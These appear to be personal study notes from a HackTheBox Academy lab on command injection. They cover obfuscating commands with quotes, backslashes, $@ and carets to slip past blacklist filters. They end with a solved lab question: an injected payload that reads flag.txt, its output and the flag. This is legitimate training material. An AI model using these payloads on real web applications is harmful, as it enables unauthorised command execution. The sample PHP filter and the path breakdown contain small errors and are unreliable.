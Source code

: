 ```yaml
---
sticker: emoji//1f4bb
---
```

We have discussed various methods for bypassing single-character filters. However, there are different methods when it comes to bypassing blacklisted commands. A command blacklist usually consists of a set of words, and if we can obfuscate our commands and make them look different, we may be able to bypass the filters.

There are various methods of command obfuscation that vary in complexity, as we will touch upon later with command obfuscation tools. We will cover a few basic techniques that may enable us to change the look of our command to bypass filters manually.

---

## Commands Blacklist

We have so far successfully bypassed the character filter for the space and semi-colon characters in our payload. So, let us go back to our very first payload and re-add the `whoami` command to see if it gets executed: 

![Filter Commands](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_commands_1.jpg)

We see that even though we used characters that are not blocked by the web application, the request gets blocked again once we added our command. This is likely due to another type of filter, which is a command blacklist filter.

A basic command blacklist filter in `PHP` would look like the following:

```php
$blacklist = ['whoami', 'cat', ...SNIP...];
foreach ($blacklist as $word) {
    if (strpos('$_POST['ip']', $word) !== false) {
        echo "Invalid input";
    }
}
```

As we can see, it is checking each word of the user input to see if it matches any of the blacklisted words. However, this code is looking for an exact match of the provided command, so if we send a slightly different command, it may not get blocked. Luckily, we can utilize various obfuscation techniques that will execute our command without using the exact command word.

---

## Linux & Windows

One very common and easy obfuscation technique is inserting certain characters within our command that are usually ignored by command shells like `Bash` or `PowerShell` and will execute the same command as if they were not there. Some of these characters are a single-quote `'` and a double-quote `"`, in addition to a few others.

The easiest to use are quotes, and they work on both Linux and Windows servers. For example, if we want to obfuscate the `whoami` command, we can insert single quotes between its characters, as follows:

```shell-session
21y4d@htb[/htb]$ w'h'o'am'i

21y4d
```

The same works with double-quotes as well:


```shell-session
21y4d@htb[/htb]$ w"h"o"am"i

21y4d
```

The important things to remember are that `we cannot mix types of quotes` and `the number of quotes must be even`. We can try one of the above in our payload (`127.0.0.1%0aw'h'o'am'i`) and see if it works:

#### Burp POST Request

![Filter Commands](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_commands_2.jpg)

As we can see, this method indeed works.

---

## Linux Only

We can insert a few other Linux-only characters in the middle of commands, and the `bash` shell would ignore them and execute the command. These characters include the backslash `\` and the positional parameter character `$@`. This works exactly as it did with the quotes, but in this case, `the number of characters do not have to be even`, and we can insert just one of them if we want to:


```bash
who$@ami
w\ho\am\i
```

Exercise: Try the above two examples in your payload, and see if they work in bypassing the command filter. If they do not, this may indicate that you may have used a filtered character. Would you be able to bypass that as well, using the techniques we learned in the previous section?

---

## Windows Only

There are also some Windows-only characters we can insert in the middle of commands that do not affect the outcome, like a caret (`^`) character, as we can see in the following example:

```cmd-session
C:\htb> who^ami

21y4d
```

# Question
----

![](Pasted%20image%2020250205143422.png)

We can do the following command:

```
127.0.0.1%0ac'a't${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```

```ad-important
##### Breakdown
---
- **Command Injection Operator (`%0a`)**
    
    - Uses a new-line character to terminate the original command (e.g., `ping 127.0.0.1`) and inject a new command.
        
- **Obfuscated `cat` Command (`c'a't`)**
    
    - Inserts single quotes to bypass the `cat` command blacklist. The shell ignores the quotes and executes `cat`.
        
- **Space Replacement (`${IFS}`)**
    
    - Replaces the space between `cat` and the file path with the `Internal Field Separator` environment variable.
        
- **Slash Replacement (`${PATH:0:1}`)**
    
    - Extracts the `/` character from the `PATH` environment variable (e.g., `${PATH:0:1}` = `/`).
        
- **File Path**
    
    - Constructs the path to `flag.txt` as:  
        `/${PATH:0:1}home/${PATH:0:1}1nj3c70r/${PATH:0:1}flag.txt`.
```

This outputs:

```

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.013 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.013/0.013/0.013/0.000 ms
HTB{b451c_f1l73r5_w0n7_570p_m3}
```

Flag is `HTB{b451c_f1l73r5_w0n7_570p_m3}`

